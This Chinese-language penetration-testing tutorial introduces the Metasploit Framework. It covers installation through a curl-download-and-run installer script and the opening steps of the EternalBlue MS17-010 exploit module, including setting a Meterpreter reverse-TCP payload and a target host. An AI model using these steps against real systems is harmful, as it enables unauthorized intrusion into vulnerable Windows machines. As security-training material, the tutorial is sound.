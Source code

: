 

**`Metasploit Framework(MSF)`**是一款开源安全漏洞检测工具，附带数千个已知的软件漏洞，并保持持续更新。Metasploit可以用来信息收集、漏洞探测、漏洞利用等渗透测试的全流程，被安全社区冠以“可以黑掉整个宇宙”之名。刚开始的Metasploit是采用Perl语言编写的，但是再后来的新版中，改成了用Ruby语言编写的了。在kali中，自带了Metasploit工具。我们接下来以大名鼎鼎的永恒之蓝MS17\_010漏洞为切入点，讲解MSF框架的使用。



**MSF的更新**：msfupdate



![](https://img-blog.csdnimg.cn/20191109220725658.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



Metasploit的安装和升级

----------------



在一般的linux中，默认是不安装MSF的。以下是在非kali的Linux下安装MSF框架。



**一键安装**



```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall         
adduser msf           #添加msf用户      
su msf                #切换到msf用户      
cd  /opt/metasploit-framework/bin   #切换到msf所在的目录       
./msfconsole          #以后启动msfconsole，都切换到msf用户下启动，这样会同步数据库。如果使用root用户启动的话，不会同步数据库         
也可以将msfconsole加入到执行目录下，这样在任何目录直接msfconsole就可以了      
ln -s /opt/metasploit-framework/bin/msfconsole /usr/bin/msfconsole       1
#备注：      1
#初次运行msf会创建数据库，但是msf默认使用的PostgreSQL数据库不能与root用户关联，这也这也就是需要新建用户msf来运行metasploit的原因所在。如果你一不小心手一抖，初次运行是在root用户下，请使用 msfdb reinit 命令，然后使用非root用户初始化数据库。               1
MSF后期的升级：msfupdate
```




**使用方法：**



*   进入框架：msfconsole

*   使用search命令查找相关漏洞： search  ms17-010

*   使用use进入模块:  use exploit/windows/smb/ms17\_010\_eternalblue   

*   使用info查看模块信息： info 

*   设置攻击载荷：set payload windows/x64/meterpreter/reverse\_tcp

*   查看模块需要配置的参数：show options

*   设置参数：set  RHOST  192.168.125.138
